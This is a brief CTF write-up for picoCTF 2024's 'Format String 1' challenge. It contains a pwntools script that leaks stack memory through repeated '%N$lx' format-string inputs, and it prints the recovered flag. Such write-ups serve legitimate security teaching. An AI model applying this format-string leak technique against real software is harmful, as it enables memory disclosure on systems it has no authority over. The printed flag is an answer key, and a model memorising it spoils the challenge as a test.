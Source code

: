 ```yaml
---
title: "Format String 1 (picoCTF 2024)"
summary: "Easy pwn chal - Format String Vuln"
description: "Easy pwn chal - Format String Vuln"
tags: [pwn, easy, writeup]
date: 2024-04-07T22:00:00-05:00
draft: true
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

Given files: [format-string-1](/picoctf-format-string-1/format-string-1) [format-string-1.c](/picoctf-format-string-1/format-string-1.c)

---

## Writeup



### Solve script

```py
from pwn import *

elf = ELF('./format-string-1')

# host = 'host'
# port = <port>

s = ""
orders = []
for i in range (14,30):
    # p = remote(host, port)
    p = elf.process()
    format_s = b"".join([b"%" + str(i).encode("utf-8") + b"$lx"])
    p.recvuntil(b":")
    p.sendline(format_s)
    out = p.recvall().decode('utf-8').strip().split(" ")[3].splitlines()[0]
    orders.append(out)

orders.reverse()
print(orders)
print(''.join(orders))
```

## Flag

`picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}`

---